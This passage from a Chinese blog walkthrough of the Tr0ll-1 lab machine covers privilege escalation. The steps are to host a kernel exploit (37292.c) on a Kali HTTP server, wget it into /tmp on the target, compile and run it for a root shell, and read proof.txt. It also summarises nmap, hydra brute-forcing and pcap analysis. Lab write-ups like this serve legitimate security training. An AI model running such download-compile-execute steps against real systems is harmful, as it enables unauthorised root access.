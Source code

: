 
![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230619002214128-997111581.png)

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230619002145404-1008922349.png)

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230619003456511-1378172599.png)

> 脚本提示需要下载到靶机，使用gcc编译再执行，python3开启http服务，在靶机后台wget下载脚本，但是此处又有一个坑，发现后台并不能随意下载

    kali:
    python3 -m http.server 8989
    
    Tr0ll-1:
    find / -writable 2>/dev/null   //查看可写入权限的文件
    

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230619002951730-1845391684.png)

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230619002842726-1016441461.png)

> 发现有一个临时目录/tmp可写入，进入tmp文件夹，将脚本下载到tmp

    cd /tmp
    
    wget http://192.168.31.153:8989/37292.c
    

> 下载完毕，使用gcc编译37292.c

    gcc 37292.c -o shell
    -o:将编译完的exp存储在自行定义的文件里
    chmod +x shell  //添加执行权限
    ./shell    //开始执行
    id
    cd /root
    cat proof.txt
    

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230619004000413-2057732482.png)

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230619004303122-1701729541.png)

### **总结**

> 1.从nmap扫描到端口再到hydra破解端口  
> 2.使用wireshark流量分析lol.pcap包获取线索  
> 3.strings解析二进制文件查找提示信息  
> 4.利用已知内核漏洞提权getshell  
> 5.最后这个靶机在查看到有很多地方可以写入权限，方法不止一个，但是我这里仅展示最简单的提权方法：利用已知漏洞获取权限  
> 其他拓展思路可以参考此博客：[https://blog.csdn.net/weixin\_44807430/article/details/128707254](https://blog.csdn.net/weixin_44807430/article/details/128707254)

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230619005213325-1665515869.png)

本文来自博客园，作者：[Vice\_2203](https://www.cnblogs.com/BlogVice-2203/)，转载请注明原文链接：[https://www.cnblogs.com/BlogVice-2203/p/17489867.html](https://www.cnblogs.com/BlogVice-2203/p/17489867.html)